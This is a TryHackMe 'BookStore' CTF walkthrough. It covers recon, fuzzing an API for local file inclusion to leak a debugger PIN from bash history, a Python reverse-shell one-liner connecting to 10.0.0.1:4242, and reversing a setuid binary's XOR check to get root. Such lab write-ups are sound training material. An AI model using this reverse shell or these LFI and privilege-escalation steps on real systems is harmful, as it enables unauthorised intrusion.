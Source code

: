 ```yaml
---
title: "BookStore - TryHackMe"
date: "2020-12-20"
categories: 
  - "tryhackme"
---
```


write-up for Tryhackme room [bookstore](https://tryhackme.com/room/bookstoreoc)

Difficulty Level - Medium

Start with Nmap scan

```
nmap -A -oN initial 10.10.193.97
```

![](/Images/bookstore/Screenshot-2020-12-20-145007.png)

then run gobuster on all ports

![](/Images/bookstore/Screenshot-2020-12-20-150441.png)

![](/Images/bookstore/Screenshot-2020-12-20-150509.png)

go though the website and find the hidden hint, some are inside source view, which are

```
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->


//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
```

So now we are aware of **"/api/v1**" vulnerable to LFI if we can read **.bash\_history** we can get PIN

i try with "**id**" parameter it didn't work so need to FUZZ the parameter.

```
wfuzz -u http://10.10.193.97:5000/api/v1/resources/books\?FUZZ\=.bash_history -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc 404
```

![](/Images/bookstore/Screenshot-2020-12-20-115336.png)

with "**show**" parameter we can read the file.

![](/Images/bookstore/Screenshot-2020-12-20-144319-1024x39.png)

we got the PIN now we can unlock the console with is in port 5000, after unlock console we can get reverse shell.

![](/Images/bookstore/Screenshot-2020-12-20-151516-1024x123.png)

it is python interactive console you can use any python reverse shell code to get shell, you can find more command [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

## Privilege Escalation

we can see a binary in current folder also it is owned by root, if we can execute it without error can get root easily but problem is we don't know anything about it so download it to your local PC and analysis it using "**Ghidra**". if you don't have much knowledge about you can learn [here](https://tryhackme.com/room/ccghidra).

![](/Images/bookstore/Screenshot-2020-12-20-143626-1024x584.png)

This is the most important detail about binary

```
void main(void)

{
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

there are some hexadecimal we need to convert into decimal, you can do it [here](https://www.rapidtables.com/convert/number/hex-to-decimal.html).

```
local_14 = 0x5dcd21f4      =  1573724660
local_18 = 0x5db3          =  23987
         = 0x1116          =  4374

local_14 = local_1c ^ 0x1116 ^ 0x5db3
```

if I'm correct we need to find the "**local\_1c**" **XOR** value, now we have all the details to calculate, you can calculate this with Programming feature in most of the Calculator

![](/Images/bookstore/Screenshot-2020-12-20-143902.png)

we get the following Answer.

![](/Images/bookstore/Screenshot-2020-12-20-153932.png)

lets execute binary and get root

![](/Images/bookstore/Screenshot-2020-12-20-143411.png)

Finally Root!!

Happy Hacking.
